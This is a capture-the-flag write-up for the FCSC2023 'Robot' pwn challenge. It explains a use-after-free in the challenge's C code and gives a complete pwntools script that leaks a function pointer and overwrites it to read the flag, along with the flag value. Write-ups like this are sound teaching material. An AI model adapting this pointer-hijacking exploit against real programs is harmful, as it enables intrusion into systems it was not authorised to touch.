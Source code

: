 ```yaml
---
title: CTFs | FCSC2023 | Robot
author: Kaiba_404
date: 2023-05-01
categories: [CTFs, FCSC2023, Robot]
tags: [CTF, FCSC2023, pwn]
permalink: /CTFs/FCSC2023/pwn/Robot
---
```


# Robot

![image](https://raw.githubusercontent.com/CongKhaiNGUYEN/congkhainguyen.github.io/main/_posts/CTFs/FCSC2023/pwn/img/chall_robot.png)

The challenge give us two file: a source code and an binary file

- [robot](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/blob/main/_posts/CTFs/FCSC2023/pwn/file/robot)
- [robot.c](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/blob/main/_posts/CTFs/FCSC2023/pwn/file/robot.c)

The challenge tell us that this binary is protected by all classical protections like ASLR, W^X,...

![image](https://raw.githubusercontent.com/CongKhaiNGUYEN/congkhainguyen.github.io/main/_posts/CTFs/FCSC2023/pwn/img/binary_protection.png)

I decided to read the source code to find exploitable vulnerabilities. While analyzing the source code, I found a fascinating function 'admin', which is shown below. 

```c

void admin(char *pwd)
{
    unsigned char hash[SHA256_DIGEST_LENGTH];
    char    result[65];

    SHA256((const unsigned char *) pwd, strlen(pwd), hash);

    for (int i = 0; i < SHA256_DIGEST_LENGTH; i++) {
        sprintf(result + (i * 2), "%02x", hash[i]);
    }

    if (strcmp(result, encrypted) == 0) {
        execl("/bin/cat", "/bin/cat", "flag.txt", NULL);
        perror("execl");
        exit(2);
    } else {
        puts("ERROR: wrong password!");
    }
}

```


The 'admin' function is responsible for reading the flag. However, we need the admin's password to obtain the flag, which we don't have (of course!). As an alternative, we can attempt to directly jump into the code at the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`. However, this is not a straightforward task. According to the source code, the program is protected against buffer overflow and string formatting vulnerabilities. All inputs are rigorously checked, and the print statements are flawlessly formatted to prevent any potential exploitation.

However, it seems that the programmer for this robot forgot something. Consider the robot's functions. Their code was normal until I noticed something weird

```c
case '3':
    if (robot) {
        printf ("Vous allumez le robot. ");
        robot->move(robot);
        printf ("De la fumée commence à apparaître, puis des étincelles... %s prend feu !!!\n", robot->name);
        printf ("%s est complètement détruit\n", robot->name);
        free (robot);
    } else {
        puts ("Vous n'avez pas de robot !");
    }
    break;
```

Calling `free(robot)` without setting `robot=NULL` creates a vulnerability that can be exploited using a ***Use-After-Free (UAF)*** attack. To take advantage of this critical vulnerability, we will examine the structure of the robot and search for a way to exploit it.

```c
struct Robot {
    char name[16];
    void (*makeNoise)();
    void (*move)();
};

struct RobotUserGuide {
    char guide[32];
};

```

We can assume that the size of the robot struct is `16+8+8 = 32`, since the two function pointers always have a size of 8. Additionally, the struct RobotUserGuide has a size of 32 (perhaps this is a hint?). Continuing to examine the source code, I noticed that the struct `RobotUserGuide` appears  in the following section:

```c
case '4':
    userGuide = malloc (sizeof (struct RobotUserGuide));
    printf ("Vous commencez à rédiger le mode d'emploi...\n> ");
    fgets (userGuide->guide, 32, stdin);
    break;
```

Voila, we can modify the parameters of struct robot through using struct RobotUserGuide. I proceed to test my conjecture:

![find_the_vuln](https://user-images.githubusercontent.com/61443497/235510458-524379af-9c98-4ed3-b441-b97551cae793.png)

There are some weird characters appear when i type 5 and enter. These are the pointers to the functions as I analyzed above. At this point I conclude that this binary can be exploited because the programmer did not assign `robot=NULL` after free it.

clear
clear

## Exploitation

To exploit the vulnerability, we can follow these steps:
1. Create a robot with any name.
2. Play with the robot to call the free function on the robot.
3. Create a userGuide with a character length less than 16, which ensures that the address of the bleep function is not overwritten (because the pointer `makeNoise` point to the `bleep` function). Why is there such an overwrite? This is simply because when we create a `userGuide` the program calls the malloc function and this function reuses the address of the robot structure that we have freed above with exactly the first memory cell of the new userGuide being the same memory cell with the first cell of the `name` in struct `robot`.
4. Request the program to display the userGuide's content on screen, and obtain the address of the `bleep` function (in function pointer `makeNoice`). Because the userGuide now contains the address of the bleep function in the 17-24th byte. So we can capture it and then compute the address of `execl` in the `admin` function (since their offset doesn't change, we can calculate their offset by using objdump -d ./robot)

5. Now, we have the address of `execl`. So let's call the free function again through playing with the robot to prepare for the second overriding.

6.  Next, we need overwrite the 17-24th byte in the userGuide (which is pointed to by the function pointer of the robot struct) with the address of `execl("/bin/cat", "/bin/cat", "flag.txt", NULL);`
7.  Finally, by using the `le faire paler` in the program (this is to call the function pointed by  function pointer `makeNoise`) , we can trigger the exploit and obtain the flag.

Here is my full exploit code:


```python
from pwn import *

# p = process("./robot")
p=remote("challenges.france-cybersecurity-challenge.fr",2101)

msg = p.recvuntil(b'Quitter')

p.sendline(b'1')
msg = p.recvuntil(b'l\'appelez ?')

p.sendline(b'qwerty')
msg = p.recvuntil(b'Quitter')

p.sendline(b'3')
msg = p.recvuntil(b'Quitter')



p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'0123456789')

p.sendline(b'5')

msg = p.recvuntil(b'Quitter')
msg = p.recvuntil(b'Que faites-vous ?')
print(msg)
p.recv()
bleep_p64 = msg[19:27]
bleep_u64 = u64(bleep_p64)
log.success(f'[LEAK] {hex(bleep_u64)}')

# @admin- @bleep = 14e      #use objdump -M intel -d ./robot
# read_pass - @bleep = 1f3
cat_addr = bleep_u64 + 0x1f3

p.sendline(b'3')
new_msg = p.recvuntil(b'Quitter')


p.sendline(b'4')
msg = p.recvuntil(b'le mode d\'emploi...')
p.sendline(b'A'*16+p64(cat_addr))


p.sendline(b'2')

p.interactive()

```

Result:

![robot_writeup](https://user-images.githubusercontent.com/61443497/235506834-74e9e108-274d-404b-81ff-acf5c4911048.png)

FLAG: `FCSC{136e057aa66dd6d6b772cae51260121f65973ff2045ec812ad597c9060a6a18d}`
